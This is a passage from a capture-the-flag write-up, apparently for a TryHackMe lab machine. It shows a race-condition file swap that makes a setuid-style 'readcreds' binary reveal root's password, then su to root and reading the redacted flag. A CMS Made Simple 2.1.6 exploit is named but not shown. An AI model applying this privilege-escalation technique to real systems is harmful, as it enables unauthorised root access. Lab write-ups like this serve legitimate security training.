 **We can see that both files are swapped!**

**Let's run the `readcreds` to read root's credentials!**
```
frank@toc:~/root_access$ ./readcreds anything 
Cannot open anything

frank@toc:~/root_access$ ./readcreds anything 
Root Credentials:  root:{Redacted}
```

Boom! We now can read `root_password_backup` file!

**We can Switch User to `root` or SSH with that password!**
```
frank@toc:~/root_access$ su root
Password: 
root@toc:/home/frank/root_access# whoami;hostname;id;ip a
root
toc
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:ce:63:e0:0d:67 brd ff:ff:ff:ff:ff:ff
    inet 10.10.248.228/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2937sec preferred_lft 2937sec
    inet6 fe80::ce:63ff:fee0:d67/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted

**root.txt:**
```
root@toc:/home/frank/root_access# cat /root/root.txt
thm{Redacted}
```

# Conclusion

What we've learned:

1. Exploiting CMS Made Simple Version 2.1.6
2. Privilege Escalation via Abusing Race Condition